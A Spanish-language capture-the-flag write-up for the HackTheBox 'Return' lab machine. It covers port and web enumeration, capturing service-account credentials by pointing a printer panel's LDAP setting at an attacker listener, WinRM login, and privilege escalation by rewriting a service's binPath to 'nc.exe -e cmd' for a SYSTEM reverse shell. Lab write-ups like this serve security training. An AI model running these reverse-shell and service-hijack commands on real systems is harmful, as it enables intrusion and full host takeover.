# Return

```bash
sudo nmap -p- --open -T5 -sCV --min-rate 5000 -n -Pn 10.129.95.241 -oN scanNmap.txt
```



- 80 -> MICROSOFT_IIS
```bash
whatweb
```

http://10.129.95.241 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.129.95.241], Microsoft-IIS[10.0], PHP[7.4.13], Script, Title[HTB Printer Admin Panel], X-Powered-By[PHP/7.4.13
PHP 7.4.13 -> versión bastante desactualizada
MICROSOFT-IIS 10.0

```bash
nmap --script http-enum 10.129.95.241 -p80
```

-> Nada

Se muestra una pág de configuración de una impresora



```bash
gobuster dir -u http://10.129.95.241 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,js,txt,git -t 200
```

Hemos probado con el diccionario */usr/share/seclists/Discovery/Web-Content/Web-Servers/IIS.txt* pero no reporta a penas nada



- 88 -> kerberos-sec



- 139 -> netbios-ssn
Intentamos conectarnos con sesión nula por smb
```bash
smbclient -L 10.129.95.241 -N
```



- 389 -> ldap



Parece que por aquí no va la cosa

- Vamos a intentar decirle al servicio de la impresora que tiene la configuración en el puerto 80, que en lugar de conectarse al servidor *printer.return.local* en el puerto 389, se conecte a nuestra máquina en 10.10.14.96 por el 389 que es donde corre



Nos ponemos en escucha con
```bash
nc -nlvp 389
```

y pulsamos en update



Nos envía lo que parece que son unas credenciales
svc-printer:1edFg43012!!

- Probamos con crackmapexec si las credenciales son correctas
```bash
crackmapexec smb 10.129.95.241 -u 'svc-printer' -p '1edFg43012!!'
```



Nos aparece un [+] por lo que sí son correctas

- Probaremos con *winrm* si podemos conectarnos al servicio de administración remota de windows, para eso el usuario tendrá que estar dentro del grupo *Remote Management Users*, cosa que a priori no sabemos y comprobaremos con crackmapexec
```bash
crackmapexec winrm 10.129.95.241 -u 'svc-printer' -p '1edFg43012!!'
```



Obtenemos el **pwn3d**

- Nos podremos conectar con evil-winrm
```bash
evil-winrm -i 10.129.95.241 -u 'svc-printer' -p '1edFg43012!!'
```

svc-printer

## Escalada

- Comprobamos los privilegios que tenemos
```powershell
whoami /priv
```



- Miramos grupos de nuestro usuario svc-printer
```powershell
net user svc-printer
```



Vemos varios grupos que pueden permitirnos ejecutar acciones privilegiadas como *Server Operators*

- Buscamos info a cerca de este grupo y qué nos permite hacer en la pág de microsoft
Buscamos por *server operators windows* y entramos a la pag de learn.microsoft
https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups
Filtramos por server operators y entramos en el enlace



Podemos **detener y arrancar servicios**

- Enumeramos servicios de la máquina
```powershell
services
```



Podríamos aprovecharnos del componente **binPath** para crear un servicio donde se ejecute un *nc.exe* para enviarnos una revshell

- Nos subiremos nc.exe a la máquina víctima
```bash
locate nc.exe
cp /usr/share/windows-resources/binaries/nc.exe .
```

```powershell
cd C:\Users\svc-printer\Desktop
upload /home/qarlg/Labs/HackTheBox/return/nc.exe
```

- Con **sc.exe** que sirve para el management de los servicios intentarmos crear un servicio donde nos establezcamos una revshell con nc.exe
```powershell
sc.exe create reverse binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd 10.10.14.96 443"
```



No tenemos permiso para crear un nuevo servicio

- Nos aprovecharemos de algún servicio creado para cambiarle su *binPath* y al parar y arrancar de nuevo ese servicio nos lanzará la revshell
Iremos probando con los servicios hasta que nos deje con alguno -> VMTools
```powershell
sc.exe config VMTools binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd 10.10.14.96 4444"
```



Nos devuelve un SUCCESS

- Nos ponemos en escucha desde nuestro kali y paramos y arrancarmos el servicio de nuevo
```bash
rlwrap nc -nlvp 4444
```

```powershell
sc.exe stop VMTools
sc.exe start VMTools
```

authority\system
